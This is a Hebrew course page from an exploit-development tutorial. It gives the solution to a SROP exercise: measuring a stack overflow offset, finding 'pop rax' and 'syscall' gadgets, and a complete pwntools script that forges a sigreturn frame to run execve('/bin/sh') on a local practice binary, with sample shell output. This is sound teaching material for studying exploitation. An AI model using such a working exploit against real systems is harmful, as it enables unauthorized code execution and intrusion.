

repository: AmitPinchasi/amittech · page: מחקר-חולשות/6 - ROP מתקדם/6.3 - SROP/6.3 - SROP - פתרון/index.html · generator: mkdocs

## פתרון - SROP

נעבור על שני התרגילים ועל אתגר הבונוס, שלב-שלב, עם הפקודות האמיתיות והקוד המלא. ההנחות: הבינארי סטטי, no-PIE, ללא canary, NX פעיל. כל הכתובות בבינארי קבועות, ולכן לא נזדקק לשום leak.

### פתרון תרגיל 1 - shell עם מסגרת אחת

**שלב א: מציאת ה-offset.** מריצים תחת gdb עם קלט cyclic ומסתכלים על כתובת הקריסה:

```bash
$ gdb -q ./vuln
pwndbg> run
# paste as input: cyclic(200) - e.g. via pwntools or python
```

בקצרה עם pwntools:

```python
from pwn import *
context.binary = ELF('./vuln')
p = process()
p.sendline(cyclic(200))
p.wait()
core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8))
log.info('offset = %d', offset)   # for me: 40
```

יצא 40: הbuffer 32 בתים ועוד 8 בתים של `saved rbp`. אצלכם עשוי לצאת אחרת - תמדדו.

**שלב ב: מציאת הגאדג'טים והמחרוזת.**

```bash
$ ROPgadget --binary vuln | grep -E ': syscall ; ret|pop rax ; ret'
0x0000000000441ab6 : pop rax ; ret
0x000000000040137c : syscall ; ret
$ ROPgadget --binary vuln --string "/bin/sh"
0x00000000004c2f24 : /bin/sh
```

בקוד ניתן ל-pwntools למצוא את הכל לבד, כך שהסקריפט יעבוד גם אם הכתובות ישתנו בין גרסאות מהדר.

**שלב ג: ה-exploit המלא.**

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./vuln')

rop         = ROP(elf)
syscall_ret = rop.find_gadget(['syscall', 'ret']).address
pop_rax     = rop.find_gadget(['pop rax', 'ret']).address
binsh       = next(elf.search(b'/bin/sh\x00'))
log.info('syscall=%#x  pop_rax=%#x  binsh=%#x', syscall_ret, pop_rax, binsh)

offset = 40

# fake frame: execve("/bin/sh", NULL, NULL)
frame = SigreturnFrame()
frame.rax = constants.SYS_execve   # 59
frame.rdi = binsh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret            # execve doesn't return, so a bare syscall instruction is enough

payload  = b'A' * offset
payload += p64(pop_rax)            # step 1: load rax
payload += p64(15)                 # rax = 15 (rt_sigreturn)
payload += p64(syscall_ret)        # step 2: syscall -> sigreturn loads the frame
payload += bytes(frame)            # step 3: the frame sits exactly at rsp

p = process()
p.send(payload)
p.interactive()
```

מריצים:

```text
[+] Starting local process './vuln': pid 4211
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) ...
$ cat flag
```

**למה זה עבד / איך להכליל.** ה-`ret` של `vuln` קפץ ל-`pop rax ; ret` שטען 15, משם ל-`syscall` שהפעיל `rt_sigreturn`, והkernel טען את כל האוגרים מהמסגרת שהנחנו מיד אחרי כתובת ה-`syscall`. אחרי השחזור היינו במצב `rax=59, rdi=&"/bin/sh", rsi=0, rdx=0` וקפצנו ל-`syscall` - זה `execve`. לא נגענו בשום כתובת מחסנית, ולכן, כפי ששאלנו בתרגיל, ה-exploit עובד גם עם ASLR מלא: הדליקו `echo 2 > /proc/sys/kernel/randomize_va_space` והוא ימשיך לעבוד, כי כל הכתובות שהשתמשנו בהן שייכות לבינארי הקבוע (no-PIE), לא ל-libc או למחסנית.
